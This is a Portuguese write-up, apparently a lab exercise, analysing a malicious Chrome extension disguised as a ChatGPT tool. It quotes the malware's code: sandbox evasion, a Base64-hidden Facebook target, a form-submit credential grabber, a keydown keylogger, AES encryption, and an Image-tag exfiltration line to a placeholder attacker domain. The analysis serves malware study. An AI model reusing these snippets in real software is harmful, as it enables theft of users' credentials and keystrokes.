










# Análise estática de extensão maliciosa do Chrome

Análise feita somente por leitura do código-fonte (sem instalar a extensão). O artefato se passa por uma extensão de IA ("ChatGPT") e rouba credenciais e teclas digitadas do usuário.

---

## Parte 1: Permissões e Evasão

### 1. Permissão para acessar dados de sessão e autenticação

**Resposta:** `cookies`

**Evidência (`manifest.json`):**
```json
"permissions": [
  "tabs", "http://*/*", "https://*/*",
  "storage", "webRequest", "webRequestBlocking", "cookies"
]
```


**Explicação:** a permissão `cookies` dá acesso aos cookies do navegador, onde ficam as sessões autenticadas da vítima.

### 2. Primeira condição que desativa a extensão

**Resposta:** `navigator.plugins.length === 0`

**Evidência (`loader.js`, linha 6):**
```js
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
    alert("Virtual environment detected. Extension will disable itself.");
    chrome.runtime.onMessage.addListener(() => { return false; });
}
```


**Explicação:** navegadores reais têm plugins; se não houver nenhum (ou se for Headless Chrome, a segunda condição do `if`), a extensão assume que está em um ambiente virtual ou automatizado de análise e exibe um alerta de que foi detectado.

---

## Parte 2: Alvos e Ofuscação

### 3. Método de codificação do endereço

**Resposta:** Base64

**Evidência (`app.js`, linhas 2 a 4 e 9):**
```js
var _0xabc1 = function(_0x321a) { return atob(_0x321a); };
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```


**Explicação:** a string termina em `==` (padding típico de Base64) e é passada à função `atob`, que decodifica Base64.

### 4. Endereço do site monitorado

**Resposta:** `www.facebook.com`

**Evidência:** decodificação de `d3d3LmZhY2Vib29rLmNvbQ==` com *From Base64* no CyberChef.


**Explicação:** o código só age quando `window.location.hostname` é igual a esse endereço.

---

## Parte 3: Coleta de Dados e Keylogging

### 5. Evento do DOM para interceptar o login

**Resposta:** `submit`

**Evidência (`app.js`, linha 11):**
```js
document.addEventListener('submit', function(event) { ... });
```


**Explicação:** dispara no momento em que o formulário é enviado e lê os campos `username`/`email` e `password`.

### 6. Evento do keylogger

**Resposta:** `keydown`

**Evidência (`app.js`, linhas 22 a 25):**
```js
document.addEventListener('keydown', function(event) {
    var key = event.key;
    exfiltrateData('keystroke', key);
});
```


**Explicação:** captura cada tecla pressionada (`event.key`) e envia ao servidor do atacante.

### 7. Função que extrai usuário e senha

**Resposta:** `exfiltrateCredentials(username, password)`

**Evidência (`app.js`, linhas 14 a 18):**
```js
let username = formData.get('username') || formData.get('email');
let password = formData.get('password');
if (username && password) {
    exfiltrateCredentials(username, password);
}
```


**Explicação:** pega usuário (ou e-mail) e senha do formulário e os repassa para montagem, criptografia e envio.

---

## Parte 4: Criptografia e Exfiltração Oculta

### 8. Algoritmo de criptografia

**Resposta:** AES (`CryptoJS.AES.encrypt`)

**Evidência (`app.js`, linhas 38 a 45):**
```js
const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
return iv.concat(encrypted.ciphertext).toString(CryptoJS.enc.Base64);
```



**Explicação:** os dados são cifrados com AES antes do envio e depois convertidos para Base64 apenas para trafegar na URL.

### 9. Elemento HTML usado para exfiltrar

**Resposta:** ``

**Evidência (`app.js`, linhas 48 a 52):**
```js
var img = new Image();
img.src = 'https://[domínio-do-atacante]/collect?data=' + encodeURIComponent(encryptedData);
document.body.appendChild(img);
```


**Explicação:** a extensão cria dinamicamente uma tag `` (`new Image()`) cujo `src` leva os dados criptografados; o navegador faz a requisição sozinho, sem `fetch` ou `XMLHttpRequest`.
# Analise-Extensao-Maliciosa
